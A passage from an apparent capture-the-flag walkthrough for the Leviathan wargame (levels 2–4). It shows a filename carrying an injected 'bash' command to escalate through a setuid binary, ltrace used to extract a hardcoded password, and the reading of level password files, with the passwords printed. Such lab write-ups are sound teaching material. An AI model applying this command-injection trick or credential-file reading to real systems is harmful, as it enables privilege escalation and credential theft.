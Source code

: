 `access` function always checks with the same priviliges as the creator of the file, which is `leviathan3`. As there is no input sanitization, we can use this to our advantage as below:

```bash
leviathan2@gibson:~$ mkdir /tmp/mytmp
leviathan2@gibson:~$ touch "/tmp/mytmp/test;bash"
leviathan2@gibson:~$ ./printfile "/tmp/mytmp/test;bash"
/bin/cat: /tmp/mytmp/test: No such file or directory
leviathan3@gibson:~$ cat /etc/leviathan_pass/leviathan3
f0n8h2iWLP
```
`test;bash` is a file that will execute the `bash` command when accessed due to lack of input sanitization. This allows us to switch to the `leviathan3` user.

Password for `leviathan3 : f0n8h2iWLP`.

14. **Connect to Leviathan3**: Use the password to connect to `leviathan3` and repeat the process of listing files.

```bash
ls -la
total 40
drwxr-xr-x  2 root       root        4096 Apr 10 14:23 .
drwxr-xr-x 83 root       root        4096 Apr 10 14:24 ..
-rw-r--r--  1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root        3771 Mar 31  2024 .bashrc
-r-sr-x---  1 leviathan4 leviathan3 18100 Apr 10 14:23 level3
-rw-r--r--  1 root       root         807 Mar 31  2024 .profile
```

15. **Check the level3 File**: The `level3` file is an executable file owned by `leviathan4`. We can run it to see if it provides any useful information.

```bash
leviathan3@gibson:~$ ./level3
Enter the password> test
bzzzzzzzzap. WRONG
leviathan3@gibson:~$ ltrace ./level3
__libc_start_main(0x80490ed, 1, 0xffffd494, 0 <unfinished ...>
strcmp("h0no33", "kakaka")                                                     = -1
printf("Enter the password> ")                                                 = 20
fgets(Enter the password> test
"test\n", 256, 0xf7fae5c0)                                                     = 0xffffd26c
strcmp("test\n", "snlprintf\n")                                                = 1
puts("bzzzzzzzzap. WRONG", "bzzzzzzzzap. WRONG")                               = 19
+++ exited (status 0) +++
leviathan3@gibson:~$ ./level3
Enter the password> snlprintf
[You''ve got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
WG1egElCvO
```
